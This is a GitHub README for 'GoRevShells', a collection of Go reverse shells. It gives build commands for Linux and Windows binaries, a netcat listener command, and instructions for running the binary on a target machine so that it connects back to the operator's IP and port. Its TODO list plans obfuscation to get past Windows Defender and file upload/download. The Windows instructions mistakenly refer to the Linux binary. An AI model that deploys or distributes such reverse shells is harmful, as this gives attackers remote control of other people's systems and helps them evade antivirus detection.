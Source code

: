 [![forthebadge](https://forthebadge.com/images/badges/60-percent-of-the-time-works-every-time.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/0-percent-optimized.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/certified-snoop-lion.svg)](https://forthebadge.com)
# GoRevShells
Basic reverse shells for linux and windows written in Go. Based off of @yougg's Go reverse shells: https://gist.github.com/yougg/b47f4910767a74fcfe1077d21568070e

## How to run (basic compilation; plenty of guides online on how to specify target operating system & architecture)
```
$ git clone https://github.com/NihilistPenguin/GoRevShells.git
$ cd GoRevshells
```
#### For linux target:
```
$ cd linux
$ GOOS=linux go build linrev.go
```
Start netcat listener on host: `$ nc -nvlp PORT`<br>
On target machine: `$ ./linrev IP:PORT` or `$ ./linrev` (uses value set in *const default_host* of linrev.go file)

#### For windows target:
```
$ cd windows
$ GOOS=windows go build winrev.go
```
Start netcat listener on host: `$ nc -nvlp PORT`<br>
On target machine: `$ .\winrev IP:PORT` or `$ .\linrev` (uses value set in *const default_host* of linrev.go file)


## TODO:
- add option for verbose output
- test it with obfuscator against Windows Defender
- add functionality for upload/download?
- other stuff I can't think of right now
